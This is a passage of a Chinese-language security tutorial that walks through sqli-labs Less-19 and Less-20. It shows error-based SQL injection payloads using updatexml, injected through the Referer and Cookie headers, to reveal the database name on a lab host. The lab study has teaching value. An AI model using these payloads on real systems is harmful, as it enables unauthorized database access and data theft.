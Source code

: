 ![img](https://s2.loli.net/2023/03/12/Ohsq4wIyxL1Ga8H.jpg) 

主要注意的是测试的时候里面有使用limit进行分页，有没有进行分页的，如果对分页存在疑问可以去报错注入中查看解释，若解释的不全，请善用百度。

### 3.5.3.案例sql-labs-less-19 referer

#### 3.5.3.1.**判断注入点**

通过页面登录发现有返回的referer信息，可以通过抓包对其进行注入测试。

![img](https://s2.loli.net/2023/03/12/EAj9J7idQFx8gp2.jpg) 

#### 3.5.3.2.**判断是否存在报错**

通过抓包后在referer的值后面添加干扰字符进行测试。发现能够出现报错的信息。

Referer: http://192.168.10.150/sqlilabs/Less-19/'

![img](https://s2.loli.net/2023/03/12/GSl1ZToVvdHtMjF.jpg) 

#### 3.5.3.3.**使用报错语句进行测试**

Referer: 'and updatexml(1,0x7e,3)and '1'='1

![img](https://s2.loli.net/2023/03/12/twEzx1HKP5MFBSc.jpg) 

#### 3.5.3.4.**确认数据库名**

Referer: 'and updatexml(1,concat(0x7e,database()),3) and '

![img](https://s2.loli.net/2023/03/12/CyaVnWQK8JNM1xP.jpg) 

后续步骤和User-Agent的测试流程一样。

### 3.5.4.**案例**sqli-abs-less-20 cookie

#### 3.5.4.1.**判断注入点**

通过界面发现存在cookie值。

![img](https://s2.loli.net/2023/03/12/MHkIE31F4BYNd82.jpg) 

#### 3.5.4.2.**判断是否存在报错**

通过抓包后在Cookie的值后面添加干扰字符进行测试。发现能够出现报错的信息。

Cookie: uname=admin' and updatexml(1,0x7e,3)#

 

![img](https://s2.loli.net/2023/03/12/sVbaTrcWLPfd9zM.jpg) 

#### 3.5.4.3.**确认数据库名**

Cookie: uname=admin' and updatexml(1,concat(0x7e,database()),3)#
